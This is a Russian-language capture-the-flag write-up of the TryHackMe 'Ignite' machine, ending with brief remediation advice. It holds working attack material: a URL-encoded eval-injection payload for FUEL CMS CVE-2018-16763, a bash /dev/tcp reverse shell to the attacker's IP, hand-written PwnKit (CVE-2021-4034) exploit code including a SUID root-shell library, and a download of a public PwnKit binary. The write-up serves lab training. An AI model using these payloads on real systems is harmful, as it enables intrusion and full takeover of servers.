# TryHackMe: Ignite


*Дата: 27.10.2026*


### Сложность: Easy

**Мой IP: 192.168.130.244**

**IP Цели: 10.112.162.178**

### **Лаборатория: TryHackMe, все действия легитимны**

**Инструменты: nmap, curl, nc, gcc, python3, wget**

---

Сегодня у меня ещё одна машинка на TryHackMe - **Ignite**

Давайте с самого начала запустим сканирование с флагом `-sV`, чтобы узнать какие порты открыты и версии портов, и флаг `-p-` чтобы просканировались все 65535 порта:

```bash
sudo nmap -sV 10.112.162.178 -p-
```



И нам показало лишь один единственный порт - 80-ый. Это сайт `http://10.112.162.178`, на котором находился какой-то документ, в котором был переход на второй сайт `http://10.112.162.178/fuel`
с `FUEL CMS`. Также там было про то, что базовые логин и пароль - `admin`, поэтому я решил зайти на сайт.

После входа на сайт, первым делом что я решил сделать это поискать версию `FUEL CMS`, поэтому перехожу в `http://10.112.162.178/fuel/site_docs`:



И первым делом что мне бросается в глаз - версия `FUEL CMS`. Прямо в тексте написано, что она версии **1.5**, а на `FUEL CMS 1.5` есть **CVE-2018-16763**, которая оценивается аш на 9.8/10 по шкале опасности, ведь даёт возможность выполнять удаленное выполнение произвольного кода. 
Уязвимость кроется в параметре `filter` эндпоинта `/fuel/pages/select/` Разработчики `FUEL CMS` передавали значение этого параметра в PHP-функцию `eval()` без какой-либо проверки и очистки.
Функция `eval()` в `PHP` выполняет строку как код. То есть, если передать туда строку `system('id');`, сервер выполнит системную команду `id` и покажет её вывод. А поскольку `eval()` выполняется в контексте веб-приложения, команда запускается с правами веб-сервера. Давайте сейчас вручную проэксплуатируем `fuel cms`, с помощь `curl`:

```bash
curl -s "http://10.112.162.178/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27system%27%29%29%2B%24a%28%27id%27%29%2B%27"
```

Команда наверное выглядит страшно, ведь там ничего не понятно, но сейчас я всё объясню:

```bash
curl - это популярная утилита командной строки в Linux для передачи данных по различным сетевым протоколам

-s - Делает скрипт визуально удобнее, убирает лишний интерфейс

"http://10.112.162.178/fuel/pages/select/ - URL до уязвимой части FUEL CMS

?filter= - Параметр GET запроса

%27 - '	(Одинарная кавычка)

%2B	- +	(Плюс)

pi - pi	(Название функции внутри Fuel CMS, которая вызывает eval)

%28	- (	(Открывающая скобка)

print	- print	(Команда вывода(

%28	(	Открывающая скобка

%24	- $	(Знак доллара, обозначает переменную в PHP)

a	- a	(Имя переменной, теперь у нас есть $a

%3D	- =	(Знак равно, оператор присваивания)

system - system	(Название системной функции в PHP)

%29 - ) (Закрывающаяся скобка)

a	- a	(Имя переменной)

id - Системная команда, которую мы хотим выполнить
```

---

Сложно? Наверное да, поэтому давайте я вам покажу расшифровку этого `URL` запроса на нормальный язык:

```
curl -s "http://10.112.162.178/fuel/pages/select/?filter=' + pi(print($a='system')) + $a('id') + '
```

Если говорить ещё проще, это специально зашифрованный `URL` адрес, который выполняет нашу команду внутри `$a('')`, давайте сейчас ввёдем эту команду и посмотрим, что нам выдаст:

```bash
curl -s "http://10.112.162.178/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27system%27%29%29%2B%24a%28%27id%27%29%2B%27"
```



И как мы видим, `id` сработал и нам показало, что мы - `www-data`, поэтому теперь давайте получим `reverse-shell`

Сначала запустим 4444-ый порт на отдельном терминале kali:

```bash
nc -lvp 4444
```

Теперь на втором терминале, нам нужно передать команду `bash -c 'bash -i >& /dev/tcp/192.168.130.244/4444 0>&1'`, чтобы мы смогли подключится к kali. Однако без `URL` шифрования это будет невозможно сделать, поэтому сейчас мы сделаем её читаемой для `URL`, и используем:

```bash
curl -s "http://10.112.162.178/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27system%27%29%29%2B%24a%28%27bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.130.244%2F4444%200%3E%261%27%27%29%2B%27"
```



Но у нас не получилось. Всё дело в одинарных кавычках, PHP увидел первую кавычку, закрыл строку на слове -c, а потом наткнулся на слово bash и выдал ошибку. Поэтому самым надёжным способом будет заменить в `URL`одинарные кавычки на двойные:

```bash
curl -s "http://10.112.162.178/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27system%27%29%29%2B%24a%28%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.130.244%2F4444%200%3E%261%27%22%29%2B%27"
```




Вообще это можно было сделать с помощью эксплоита.. но это было бы не интересно. 

Ладно, теперь мы в системе от `www-data`, Сначала базово осмотримся в системе:

```bash
whoami
ls -la
sudo -l
```

Я `www-data`, нахожусь в `/var/www/html`, прав `sudo` нету. Теперь нам нужно найти первый флаг, который скорее всего находится в папке пользователе `www-data`, сначала перейдём в нее:

```bash
cd /home/www-data
ls -la
```



И да, флаг тут. Теперь читаем его через `cat`:

```bash
cat flag.txt
```

Теперь нам нужно повышать привилегии до `root`, давайте сначала поищем нестандартные `SUID` биты:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



И тут мы видим `/usr/bin/pkexec`, а это **CVE-2021-4034** *(PwnKit)*, критическая уязвимость которая позволяет любому пользователю получить `root`, чем мы сейчас и воспользуемся

Это можно было бы сделать и с эксплоитом, но это можно сделать и самостоятельно. Сначала создадим рабочую папку и вредоносную библиотеку:

```bash
cd /tmp
cat > pwnkit.c << 'SYCHKA'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}
void gconv_init() {
    setuid(0); setgid(0);
    setenv("PATH", "/bin:/usr/bin:/sbin:/usr/sbin", 1);
    execve("/bin/sh", NULL, NULL);
}
SYCHKA
```

Скомпилируем её в разделяемую библиотеку `pwnkit.so:`:

```bash
gcc -shared -fPIC pwnkit.c -o pwnkit.so
```

Теперь создадим конфигурационный файл `gconv-modules`:

```bash
cat > gconv-modules << 'SYCHKA'
module UTF-8// PWNKIT// pwnkit 1
SYCHKA
```

А теперь скомпилируем запускатор, т.е сам эксплоит:

Создадим файл `exploit.c`, который вызовет `pkexec` с пустым `argv` и нужным окружением:

```bash
cat > exploit.c << 'SYCHKA'
#include <unistd.h>

int main() {
    char *argv[] = { NULL };
    char *envp[] = {
        "pwnkit.so:.",
        "PATH=GCONV_PATH=.",
        "CHARSET=PWNKIT",
        "SHELL=pwnkit",
        NULL
    };
    execve("/usr/bin/pkexec", argv, envp);
    return 0;
}
SYCHKA
```

Скомпилируем его:

```bash
gcc exploit.c -o exploit
```

И теперь впринципе то всё. Осталось только получить `root`, с помощью команды:

```bash
./exploit
```
Но нам выдало ошибку:



Ошибка `Cannot run program pwnkit.so:.: No such file or directory` означает, что `pkexec` попытался запустить `pwnkit.so` как **программу**, а не загрузить его как **библиотеку**. Это произошло из-за того, что переменная окружения `GCONV_PATH` была задана неверно.

В моём коде `exploit.c` была строка `"pwnkit.so:."`, которая сбила `pkexec` с толку. `GCONV_PATH` должен указывать на директорию, где лежит файл `gconv-modules`, а не на сам файл библиотеки, давайте сейчас исправим это несколькими командами, сейчас пересоздадим `exploit.c` с правильным окружением:

```bash
cat > exploit.c << 'SYCHKA'
#include <unistd.h>

int main() {
    char *argv[] = { NULL };
    char *envp[] = {
        "pwnkit",
        "PATH=GCONV_PATH=.",
        "CHARSET=PWNKIT",
        "SHELL=pwnkit",
        NULL
    };
    execve("/usr/bin/pkexec", argv, envp);
    return 0;
}
SYCHKA
```

Теперь создадим правильную структуру файлов, `pkexec` будет искать конфигурацию в директории, которую мы укажем:

```bash
mkdir -p 'GCONV_PATH=.' # Создаём папку с именем GCONV_PATH
```

```bash
cp pwnkit.so 'GCONV_PATH=./pwnkit.so' # Копируем наш 'вирусняк' в эту папку под именем pwnkit.so, с кавычками потому что название папки содержит знак =
```

Теперь перекомпилируем запускатор:

```bash
gcc exploit.c -o exploit
```

И запускаем:

```bash
./exploit
```

Но опять что-то пошло не так:



Дело в том, что я упустил одну важную деталь. Я скопировал только `pwnkit.so` в `'GCONV_PATH=./'`, а про `gconv-modules` забыл. Сейчас исправим:

```bash
cp gconv-modules 'GCONV_PATH=./' # копируем gconv-modules в 'GCONV_PATH=./'
```
И теперь снова запускаем наш эксплоит:

```bash
./exploit
```



Хорошо, я опять допустил ошибку. В своём `exploit.c` я задаю переменную окружения `PATH=GCONV_PATH=` Это заставляет `pkexec` искать исполняемые файлы в папке с именем `GCONV_PATH=`. Он пытается запустить программу `pwnkit`, но в этой папке лежит только `pwnkit.so` (библиотека) и `gconv-modules` (конфиг), а самого файла с именем `pwnkit` нет.

У меня есть идея, можно создать файл заглушку для `pwnkit`, нам нужно, чтобы в папке `GCONV_PATH=` появился хоть какой-то исполняемый файл с именем `pwnkit`. Проще всего скопировать туда безобидную системную утилиту, например `true`:

```bash
cp /usr/bin/true 'GCONV_PATH=./pwnkit' # Копируем утилиту true туда
```

Но по пути `/usr/bin/true`, `true` нету в `ignite`, поэтому давайте использовать например `echo`:

```bash
cp /bin/echo 'GCONV_PATH=./pwnkit'
```

И теперь вновь, надеюсь в последний раз запускаем `./exploit`:

```bash
./exploit
```



Чтооож, жизнь решила меня помучать, но я решаю мучать её в ответ. Всё дело в защитном механизме `pkexec`, который проверяет переменную `SHELL`, эксплойт уже почти сработал, но `pkexec` отклонил его, потому что значение `SHELL=pwnkit` не найдено в списке разрешённых оболочек в `/etc/shells`. Это стандартная проверка безопасности, которую нам нужно обойти

Сначала нам нужно изменить `exploit.c`, нужно указать в переменной `SHELL` реальный путь к оболочке, который точно есть в `/etc/shells`. Обычно это `/bin/bash` или `/bin/sh`, мы же будем использовать `/bin/bash`:

```bash
cat > exploit.c << 'SYCHKA'
#include <unistd.h>

int main() {
    char *argv[] = { NULL };
    char *envp[] = {
        "pwnkit",
        "PATH=GCONV_PATH=.",
        "CHARSET=PWNKIT",
        "SHELL=/bin/bash",
        NULL
    };
    execve("/usr/bin/pkexec", argv, envp);
    return 0;
}
SYCHKA
```

Теперь перекомпилируем

```bash
gcc exploit.c -o exploit
```

И.. запускаем..:

```bash
./exploit
```



...Ладно, эта ошибка возникает потому, что я запускаю эксплойт не в полноценном терминале `(TTY)`, а через `reverse shell`. В такой сессии у процесса нет управляющего терминала `/dev/tty`, который `pkexec` пытается использовать для запроса пароля или отображения сообщений.

У уязвимости `PwnKit` есть особенность: в неинтерактивной среде стандартный код с `system()` или `execve()` может сбрасывать привилегии, и мы не получим `root`, даже если библиотека загрузится. Решение - использовать модифицированный `payload`, который выполняет все действия напрямую через системные вызовы и создаёт `SUID`-бит оболочку

Сейчас пересоздаём файл `pwnkit.c`:

```bash
cat > pwnkit.c << 'SYCHKA'
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <stdlib.h>

void gconv() {}
void gconv_init() {
    setuid(0);
    setgid(0);
    int sfd = open("/bin/bash", O_RDONLY);
    int dfd = open("/tmp/rootbash", O_WRONLY|O_CREAT|O_TRUNC, 0755);
    char buf[4096];
    ssize_t n;
    while ((n = read(sfd, buf, sizeof(buf))) > 0) {
        write(dfd, buf, n);
    }
    close(sfd);
    close(dfd);
    chown("/tmp/rootbash", 0, 0);
    chmod("/tmp/rootbash", 04755);
    exit(0);
}
SYCHKA
```

Перекомпилируем библиотеку:

```bash
gcc -shared -fPIC pwnkit.c -o pwnkit.so
```

и обновляем файлы:

```bash
cp pwnkit.so 'GCONV_PATH=./pwnkit.so'
```

```bash
cp gconv-modules 'GCONV_PATH=./'
```

И наконец, надеюсь в последнний раз запускаем эксплоид:

```bash
./exploit
```



И сейчас, несмотря на ошибку про `TTY`, скрипт `exploit` запустил `pkexec`, который из-за уязвимости загрузил нашу библиотеку `pwnkit.so`. Эта библиотека должна была скопировать `/bin/bash` в `/tmp/rootbash` и дать ему `SUID`-бит, поэтому сейчас пишем команду, которая должна активировать `root-shell`:

```bash
/tmp/rootbash -p
```



...Окей, судя по всему файл `/tmp/rootbash` не создался, потому что `pkexec упал` с ошибкой про `/dev/tty` до того, как успел загрузить нашу библиотеку. В обычной обратной оболочке (без интерактивного терминала) `pkexec` просто отказывается работать.

Нужно обмануть систему и создать иллюзию настоящего терминала `(PTY)`. Сделать это можно с помощью `python3`:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' # Создаем иллюзию, что мы якобы в настоящем терминале. Если python3 не найден, можно попробовать python.
```

Внешне ничего не изменилось, но теперь у нас `TTY`, и теперь запускаем эксплоит:

```bash
./exploit
```


Мда.. `pkexec` запрашивает пароль `root`. Это означает, что наша атака не сработала так, как задумано: вместо того чтобы загрузить нашу библиотеку через уязвимость, `pkexec` просто решил, что мы просим его запустить программу `pwnkit` от имени `root`, и запросил аутентификацию.

Скорее всего, на `ignite` установлена пропатченная версия `policykit`, где **CVE-2021-4034** уже исправлена, давайте проверим это:

```bash
dpkg -l | grep policykit
```



Версия вроде с **CVE-2021-4034**..

Ааа.. я кажется понял в чём дело! Проблема в том, что мы ранее создали файл с именем `pwnkit` в директории `GCONV_PATH=` Из-за этого `pkexec` нашел этот файл, решил, что мы просим его запустить, и, как положено, запросил пароль `root`. Уязвимость не сработала, потому что программа не упала с ошибкой.

Чтобы вызвать ошибку, имя программы в эксплойте должно быть несуществующим.

Сначала давайте удалим `pwnkit` из папки, чтобы pkexec не мог его найти:

```bash
rm -f 'GCONV_PATH=./pwnkit'
```

Теперь пересоздадим `exploit.c`. Изменим имя программы на `pwnkit.so:.` — такого файла точно нет, поэтому `pkexec` упадет в нужном месте. Заодно вернем `SHELL=/bin/bash`:

```bash
cat > exploit.c << 'SYCHKA'
#include <unistd.h>

int main() {
    char *argv[] = { NULL };
    char *envp[] = {
        "pwnkit.so:.",
        "PATH=GCONV_PATH=.",
        "CHARSET=PWNKIT",
        "SHELL=/bin/bash",
        NULL
    };
    execve("/usr/bin/pkexec", argv, envp);
    return 0;
}
SYCHKA
```

Скомпилируем файл:

```bash
gcc exploit.c -o exploit
```

И запускаем:

```bash
./exploit
```



Ладно, видимо ручной метод `PwnKit` на этой конкретной машине с этой версией `policykit`, скорее всего, не сработает из-за патчей или особенностей окружения. 

Скорее всего, дело именно в отсутствии полноценного `TTY`, даже `pty.spawn` не всегда помогает в обратных шеллах, потому что `pkexe`c требует реального терминала и в том, что `pkexec` проверяет переменную `SHELL` по списку `/etc/shells`. Мой эксплоит пытался запустить `SHELL=pwnkit`, а `pkexec` такого не разрешает. Плюс, когда я создал файл-заглушку `pwnkit`, `pkexec` вместо загрузки библиотеки просто попытался запустить программу с этим именем и запросил пароль.

Я считаю неэффективным подходом продолжать пытаться вручную получить `root`, поэтому сделаю это с помощью эксплоита.

Сначала скачаем эксплоит на kali: 

```bash
wget https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit
```

Теперь запускаем `python` сервер:

```bash
python3 -m http.server 8000
```

А на `reverse-shell` скачиваем файл с kali:

```bash
wget http://192.168.130.244:8000/PwnKit -O PwnKit
```

Теперь с `reverse-shell` меняем права с помощью `chmod`:

```bash
chmod +x PwnKit
```

И запускаем `PwnKit`:

```bash
./PwnKit
```



Это классическая ошибка `linux`, `Text file busy` означает, что система считает, будто файл `PwnKit` всё ещё открыт для записи, давайте сейчас исправим это:

```bash
cp PwnKit pwnkit_run # Копируем PwnKit в новый файл pwnkit_run
```

```bash
chmod +x pwnkit_run # Меняем права новому файлу
```

```
./pwnkit_run # Запускаем
```

И теперь, пишем финальный `whoami` чтобы узнать, `root` ли мы теперь:

```bash
whoami
```



Теперь читаем финальный флаг:

```bash
cat /root/root.txt
```

И проходим машинку

### РЕКОМАНДАЦИИ ПО УСТРАНЕНИЮ УЯЗВИМОСТЕЙ:
  1. **Обновить CMS до самой высшей доступной версии**
  2. **Обновить policykit до самой высшей доступной версии**


P.S Я бы писал официально, но я не на работе. Думаю такой стиль для моего GitHub-а подойдёт. В названия скринов не всматривайтесь. С моей стороны было бы правильно сразу запустить готовый эксплоит для ускорения процесса, но мне было слишком интересно

Благодарности:
**Искусственный Интеллект, без него я бы очень долго бродил бы по сайтам**
**Мои нервные клетки, которые вытерпели 4-ех часовой сеанс без перерывов**
